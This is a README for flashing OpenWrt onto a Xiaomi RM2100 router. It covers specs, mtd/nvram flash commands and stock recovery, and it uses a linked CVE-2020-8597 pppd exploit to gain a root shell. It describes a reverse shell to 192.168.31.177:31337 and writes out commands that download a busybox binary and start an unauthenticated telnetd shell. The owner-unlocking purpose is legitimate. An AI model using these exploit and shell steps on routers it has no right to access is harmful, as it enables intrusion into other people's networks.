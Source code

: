 # Xiaomi-RM2100-1.0.14-vs.-CVE-2020-8597

Specification:

CPU: MediaTek MT7621A
RAM: 128 MB DDR3
FLASH: 128 MB ESMT NAND
WIFI: 2x2 802.11bgn (MT7603)
WIFI: 4x4 802.11ac (MT7615)
ETH: 3xLAN+1xWAN 1000base-T
LED: Power, WAN, in Amber and White
UART: On board near ethernet, opposite side from power
Modified u-boot
Installation:

Run linked exploit to get shell, startup telnet and wget the files over
mtd write openwrt-ramips-mt7621-xiaomi_rm2100-squashfs-kernel1.bin kernel1
mtd write openwrt-ramips-mt7621-xiaomi_rm2100-squashfs-rootfs0.bin rootfs0
nvram set uart_en=1
nvram set bootdelay=5
nvram set flag_try_sys1_failed=1
nvram commit
mtd -r write openwrt-ramips-mt7621-xiaomi_rm2100-squashfs-rootfs0.bin rootfs0
Restore to stock:

Setup PXE and TFTP server serving stock firmware image (See dhcp-boot option of dnsmasq)
Hold reset button down while powering on
Wait until status led changes from flashing amber to white
Notes:
This device has dual kernel and rootfs slots like other Xiaomi devices currently supported (mir3g, etc.)
Thus, we use the second slot and overwrite the first rootfs onwards in order to get more space.

Exploit:

https://gist.github.com/namidairo/1e3fb3404c9f148474c06ae6616962f3    (pppd-cve.py)

An implementation of CVE-2020-8597 against stock firmware version 1.0.14

This requires a computer with ethernet plugged into the wan port and an active PPPoE session,
and if successful will open a reverse shell to 192.168.31.177 on port 31337.

As this shell is somewhat unreliable and likely to be killed in a random amount of time,
it is recommended to wget a static compiled busybox binary onto the device and start telnetd with it.
The stock telnetd and dropbear appear inoperable (Disabled on release versions of stock firmware likely)
Ie. wget https://busybox.net/downloads/binaries/1.31.0-defconfig-multiarch-musl/busybox-mipsel -O /tmp/busybox
chmod a+x /tmp/busybox
/tmp/busybox telnetd -l /bin/sh

Signed-off-by: Richard Huynh voxlympha@gmail.com

